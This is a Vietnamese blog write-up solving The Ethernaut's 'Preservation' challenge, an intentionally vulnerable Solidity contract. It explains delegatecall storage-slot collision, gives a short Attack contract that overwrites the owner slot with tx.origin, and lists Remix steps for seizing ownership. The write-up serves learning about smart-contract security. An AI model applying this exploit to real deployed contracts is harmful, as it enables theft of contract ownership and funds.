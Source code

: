 ```yaml
---
layout: post
title: "The Ethernaut: 16 - Preservation"
mathjax: true
---
```


# 16. Preservation 　★★★★★★

**Nhiệm vụ**: chiếm quyền owner

```js
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress;
    timeZone2Library = _timeZone2LibraryAddress;
    owner = msg.sender;
  }

  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## Solution

Có 2 điều ta cần nắm được về `delegatecall`ss:

**Điều thứ nhất**: `delegatecall` chỉ là mượn hàm từ một contract khác và gọi hàm đó trong contract của mình.

Để diễn giải điều này, ta xét một ví dụ có thể coi là kinh điển về `delegatecall`, search google phát thấy ngay

```js
contract D {
  uint public n;
  address public sender;

  function delegatecallSetN(address _e, uint _n) {
    _e.delegatecall(bytes4(sha3("setN(uint256)")), _n); // D's storage is set, E is not modified
  }
}

contract E {
  uint public n;
  address public sender;
  function setN(uint _n) {
    n = _n;
    sender = msg.sender;
  }
}
```

Trong contract E ta có một hàm là hàm `setN` sẽ thay đổi giá trị của `n` và `sender`. Trong contract D ta gọi hàm `_e.delegatecall(bytes4(sha3("setN(uint256)")), _n);`, điều này tương đương với việc ta chuyển hàm setN vào bên trong contract D như sau:

```js
contract D {
  uint public n;
  address public sender;

  function delegatecallSetN(uint _n) {
    setN(_n);
  }

  function setN(uint _n) {
    n = _n;
    sender = msg.sender;
  }
}
```

**Điều thứ hai**: khi gọi `delegatecall`, các biến của hàm trong contract E sẽ là *biến với slot tương ứng* của contract D, không cần quan tâm đến tên biến và kiểu dữ liệu.

Ví dụ như bên trên, giả sử ta đổi tên biến và kiểu dữ liệu trong contract D như sau:

```js
contract D {
  address public addr;
  bytes20 public mess;

  function delegatecallSetN(address _e, uint _n) {
    _e.delegatecall(bytes4(sha3("setN(uint256)")), _n); // D's storage is set, E is not modified
  }
}

contract E {
  uint public n;
  address public sender;
  function setN(uint _n) {
    n = _n;
    sender = msg.sender;
  }
}
```

khi này trong D, nếu ta gọi `_e.delegatecall(bytes4(sha3("setN(uint256)")), _n);` thì `addr` sẽ được gán cho giá trị của `_n`, tất nhiên có ép kiểu từ `uint` sang `address`, còn `mess` sẽ được gán cho giá trị của `msg.sender`, ép kiểu từ `address` qua `bytes20`.

Các bạn hãy tự test thử trên RemixIDE để hiểu rõ hơn.

Ok vậy là ta đã hiểu về `delegatecall`, trong bài này ta sẽ áp dụng thế nào ?

Cùng nhìn qua contract `LibraryContract`

```js
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

Contract này có một slot duy nhất chứa `storedTime`, do đó nó sẽ tương ứng với slot của `timeZone1Library` trong contract `Preservation` nếu ta gọi `setTime` bằng `delegatecall`. Điều này có ý nghĩa thế nào?

```js
function setFirstTime(uint _timeStamp) public {
  timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
}
```

nó có nghĩa là nếu ta gọi `setFirstTime` thì `timeZone1Library` sẽ được gán bởi `_timeStamp` một lần duy nhất, vì sau đó địa chỉ `timeZone1Library` sẽ trở thành địa chỉ `_timeStamp` rồi.

```js
function setSecondTime(uint _timeStamp) public {
  timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
}
```

nó có nghĩa là nếu ta gọi `setSecondTime` thì `timeZone1Library` sẽ được gán lại bởi giá trị `_timeStamp` bất cứ khi nào gọi hàm

Từ ý nghĩa này, ta có kịch bản tấn công như sau:

- Thay `timeZone1Library` bằng địa chỉ contract tấn công.
- Do trong contract `Preservation`, biến `owner` ứng với slot thứ 3, nên trong contract tấn công ta sẽ có 3 biến, theo đó nếu gọi bằng `delegatecall`, slot thứ 3 sẽ tương tứng với `owner` trong `Preservation`.
- Trong contract tấn công cũng phải có hàm `setTime` y như `timeZone1Library` và `timeZone2Library`, trong hàm này ta sẽ tiến hành đổi owner sang chính mình (tx.origin)
- Contract tấn công sẽ như sau

```js
contract Attack {
  address public slot1;
  address public slot2;
  address public owner;

  function setTime(uint _time) public {
    owner = tx.origin;
  }
}
```

**Note**: Trong các giao dịch, nhớ cho `gasLimit` cao một chút để tránh bị hết gas

- Trên Remix IDE, load contract `Preservation`

![png]({{site.url}}/assets/images/preservation.png)

- Trên Remix IDE, deploy contract `Attack`

![png]({{site.url}}/assets/images/preservation-attack.png)

- Tại `Preservation`, gọi hàm `setFirstTime` với giá trị là địa chỉ của contract `Attack`, đã được convert ra uint256

![png]({{site.url}}/assets/images/preservation-setfirsttime-1.png)

- Tại `Preservation`, gọi hàm `setFirstTime` lần thứ 2 với giá trị bất kì

![png]({{site.url}}/assets/images/preservation-setfirsttime-2.png)

- Kiếm tra lại xem owner đã là mình chưa ?

![png]({{site.url}}/assets/images/preservation-owner.png)

- Submit & all done!

## Bình luận

`delegatecall` và `storage` chưa bao giờ là dễ cả!

Enjoy coding!